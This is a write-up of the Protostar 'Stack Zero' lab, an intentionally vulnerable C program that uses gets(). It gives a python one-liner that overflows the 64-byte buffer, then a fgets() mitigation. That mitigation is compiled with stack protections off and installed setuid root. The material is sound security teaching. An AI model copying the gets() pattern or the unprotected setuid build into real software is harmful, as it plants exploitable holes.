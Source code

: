# Stack Zero

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

Let's write an '**A**' 64 times and than add a 1 in the **modified** variable.

```bash
python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

We know that the **modified** variable have 1 as value.

## Mitigation #1

We can use the function **fgets()** to set a limit to the number of char that will be read:

```c
fgets(buffer, 64, stdin);
```

The code will be:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  fgets(buffer, 64, stdin);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

Save the code as **stack0-fgets.c** and compile it:

```bash
gcc -fno-stack-protector -z execstack -o /opt/protostar/bin/stack0-fgets /opt/protostar/bin/stack0-fgets.c
```

This options turn off all protection agaist buffer overflow.

Set correct privileges:

```bash
chown root:root /opt/protostar/bin/stack0-fgets
chmod 4755 /opt/protostar/bin/stack0-fgets
```

If we try again the exploit, we will get:

```bash
$ python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0-fgets
Try again?
```